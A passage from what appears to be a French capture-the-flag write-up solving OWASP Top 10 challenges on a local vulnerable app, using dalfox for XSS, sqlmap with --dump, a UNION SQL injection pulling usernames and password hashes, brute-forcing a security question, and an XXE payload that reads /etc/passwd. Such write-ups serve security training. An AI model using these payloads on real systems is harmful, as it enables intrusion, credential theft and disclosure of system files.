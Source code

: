 Nous pouvons aussi utiliser l'outil [dalfox](https://github.com/hahwul/dalfox) (XSSStrike n'est plus maintenu..) pour trouver des XSS :
```bash
dalfox url http://localhost:8042/A03.php -X POST -d comment=test
```

Pour l'injection SQL nous pouvons tester avec SQLmap assez naturellement :
```bash
sqlmap -u "http://localhost:8042/A03.php?username=admin"
sqlmap -u "http://localhost:8042/A03.php?username=admin" --dump
```

Nous pouvons aussi tester avec des injections manuelles :
```sql
http://localhost:8042/A03.php?username=admi%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x71786b6a71%2CJSON_ARRAYAGG%28CONCAT_WS%280x6176666d7877%2Cid%2Cmd5_password%2Cusername%29%29%2C0x717a767171%29%2CNULL%20FROM%20vulnerable_app.users--%20-
```

Nous obtenons le flag.

# Solution
## A04 - Conception non sécurisée

Nous avons une page de récupération de mot de passe qui n'est pas sécurisée dans sa conception. En effet nous pouvons voir les messages d'erreurs sont trop explicites et donnent des informations sur les utilisateurs. Nous pouvons voir que le message d'erreur nous indique si l'utilisateur existe ou non. Une fois un utilisateur trouvé, en l'occurence `administrateur` nous pouvons récupérer le mot de passe via une question de "sécurité". Nous pouvons choisir la plus simple à trouver. Nous n'avons aucune limite de test donc nous pouvons essayer toutes les villes possibles pour récupérer ensuite le flag. Ici la ville est `Paris` et nous obtenons le flag.

# Solution
## A05 - Mauvaise configuration de sécurité

Nous avons une page qui parse le XML et qui affiche le contenu. Nous pouvons donc tester une attaque XXE. Nous pouvons tester avec le payload suivant :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
Nous pouvons voir que cela fonctionne.
Nous essayons donc ensuite :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&xxe;</lastName>
 </userInfo>
```
Et nous obtenons le fichier `/etc/passwd`.
